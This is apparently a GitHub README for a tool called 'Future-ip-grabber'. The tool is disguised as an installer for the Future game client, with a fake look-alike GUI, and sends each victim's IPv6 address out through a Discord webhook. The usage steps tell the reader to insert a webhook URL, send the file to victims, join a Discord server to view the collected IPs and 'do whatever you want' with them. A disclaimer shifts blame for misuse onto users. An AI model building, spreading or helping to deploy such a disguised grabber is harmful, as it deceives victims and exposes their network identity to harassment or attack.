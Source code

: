 # Future-ip-grabber
If someone wants Future client for free, sent them this, it has GUI that looks exactly like real Future installer. Grabs victims IPv6 address and sends it through a discord webhook.

## Usage

1. Go to releases tab and search for `https://github.com/Doundeway/Future-ip-grabber/releases/tag/1.0`
2. Paste your webhook into `sender webhook = new sender("https://discord.com/api/webhooks/{your webhook id}");`
3. Send it to your victim or victims
4. Join this discord server to see your victims ip `https://discord.gg/TbpbZ5Xnss`
5. Do whatever you want with the ip



## Disclaimer 

Any malicious usage with this code isnt our fault. You are responsible for your own actions.
